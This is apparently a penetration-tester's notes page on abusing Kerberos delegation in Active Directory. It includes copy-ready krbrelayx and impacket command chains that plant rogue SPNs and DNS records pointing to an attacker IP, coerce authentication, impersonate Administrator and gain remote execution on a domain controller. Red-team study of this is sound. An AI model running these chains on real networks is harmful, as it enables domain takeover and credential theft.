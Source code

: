 # [Delegation](https://www.thehacker.recipes/ad/movement/kerberos/delegations)

## Questions to ask yourself
  *  Any user/computer objects with unreadable [delegation attributes](https://github.com/SpacemanHenry/hacknotes/blob/main/Information%20Gathering/Service%20Enumeration/LDAP.md#delegation-permissions)?
  *  Any objects with delegation privileges [kerberoastable](https://github.com/SpacemanHenry/hacknotes/blob/main/Exploitation/Authentication/Kerberos/Kerberoast.md)?
  *  What services have service principal names configured?
      *  What users have high privileges over those services?

## Things to remember
  *  Unconstrained delegation requires non-default configuration for user objects
  *  Add FQDNs to `hosts` file or point to name server to avoid DNS errors
  *  All examples here [covered in Red XOR Blue blog post](https://blog.redxorblue.com/2019/12/no-shells-required-using-impacket-to.html)

## Useful tools
  *  [`krbrelayx`](https://github.com/dirkjanm/krbrelayx) toolkit for abusing unconstrained delegation
  *  [`impacket-getST`](https://github.com/fortra/impacket/blob/master/examples/getST.py) for impersonating users via constrained delegation(s)
  *  [`impacket-addcomputer`](https://github.com/fortra/impacket/blob/master/examples/addcomputer.py) for creating new machine accounts
  *  [`impacket-rbcd`](https://github.com/fortra/impacket/blob/master/examples/rbcd.py) for reading/writing/clearing RBCD attributes

## Unconstrained delegation
  *  KUD service accounts are provided a TGT of any user that auths via SPN
      *  Any method of coerced authentication can often be used... get creative!
  *  `krbrelayx` for abusing user accounts with KUD (relies on [`Write servicePrincipalName`](https://learn.microsoft.com/en-us/sql/database-engine/configure-windows/register-a-service-principal-name-for-kerberos-connections?view=sql-server-ver16))
      *  Create evil SPNs for service account using non-existent hostname
      *  Create evil DNS record matching evil SPNs pointing to attacker IP
      *  Coerce authentication to evil SPNs and capture TGT
  *  Computer accounts with KUD are [easily abused by extracting delegated TGTs from memory](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/domain-compromise-via-unrestricted-kerberos-delegation)
      *  Coerce authentication to default SPNs such as HOST/CIFS

// Unconstrained delegation abuse via service (user) account
```
git clone https://github.com/dirkjanm/krbrelayx && cd krbrelayx
python3 addspn.py -u corp.local\\sqlsvc -p 'password' -s host/FAKE.CORP.LOCAL ldap://DC.CORP.LOCAL
python3 addspn.py -u corp.local\\sqlsvc -p 'password' -s cifs/FAKE.CORP.LOCAL ldap://DC.CORP.LOCAL
python3 dnstool.py -u corp.local\\sqlsvc -p 'password' -r FAKE.CORP.LOCAL -a add -d [ATTACKER IP] DC.CORP.LOCAL
python3 krbrelayx.py --krbsalt CORP.LOCALsqlsvc --krbpass 'password'
python3 printerbug.py corp.local/sqlsvc:'password'@DC.CORP.LOCAL FAKE.CORP.LOCAL
```

## [Constrained delegation](https://harmj0y.medium.com/s4u2pwnage-36efe1a2777c)
  *  KCD service accounts obtain forwardable TGS differently depending on configuration
      *  `Any authentication protocol` relies on [S4U extensions](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-sfu/8ee85a47-7526-4184-a7c5-25a5e4155d7d?redirectedfrom=MSDN) to obtain forwardable TGS as any user
      *  `Kerberos only` [limits S4U usage](https://www.thehacker.recipes/ad/movement/kerberos/delegations/constrained#without-protocol-transition), forwardable TGS are provided by users during auth
  *  `impacket-getST` for obtaining impersonated service tickets via S4U
      *  `impacket` suite will [attempt to modify](https://www.thehacker.recipes/a-d/movement/kerberos/ptt#modifying-the-spn) `sname` during target/ticket service mismatch

```
impacket-getST -spn 'WWW/SERVER.corp.local' -impersonate 'Administrator' corp.local/sqlsvc:'password' -dc-ip 10.0.0.1
export KRB5CCNAME=$(pwd)/Administrator.ccache
impacket-smbexec corp.local/Administrator@SERVER.corp.local -k -no-pass -dc-ip 10.0.0.1
```

## [Resource-based constrained delegation](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/resource-based-constrained-delegation)
  *  Accounts w/ SPNs can define delegates within the [`msDS-AllowedToActOnBehalfOfOtherIdentity`](https://github.com/SpacemanHenry/hacknotes/blob/main/Information%20Gathering/Service%20Enumeration/LDAP.md#delegation-permissions) attribute
      *  Constrained delegation S4U limitations do not apply to RBCD 
      *  Delegate objects must also have SPN(s) configured
      *  Search for writable RBCD attributes on service/machine accounts
  *  Take over an account with SPNs, [create a new machine account](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution), or [coerce into a relay](https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/)... get creative!
  *  `impacket-addcomputer` for creating new machine accounts (SPNs configured by default)
  *  `impacket-rbcd` for writing delegates to RBCD attributes
  *  `impacket-getST` for obtaining impersonated service tickets via S4U

// RBCD abuse via user account w/ write privileges over target machine account
```
impacket-addcomputer -method SAMR -computer-pass 'password' -computer-name 'FAKE' corp.local/bob:'password' -dc-ip 10.0.0.1
impacket-rbcd -delegate-from 'FAKE$' -delegate-to 'DC$' -dc-ip 10.0.0.1 -action write corp.local/bob:'password'
impacket-getST -spn 'CIFS/DC.corp.local' -impersonate 'Administrator' corp.local/FAKE$:'password' -dc-ip '10.0.0.1'
export KRB5CCNAME=$(pwd)/Administrator.ccache
impacket-wmiexec corp.local/Administrator@DC.corp.local -k -no-pass -dc-ip 10.0.0.1
```
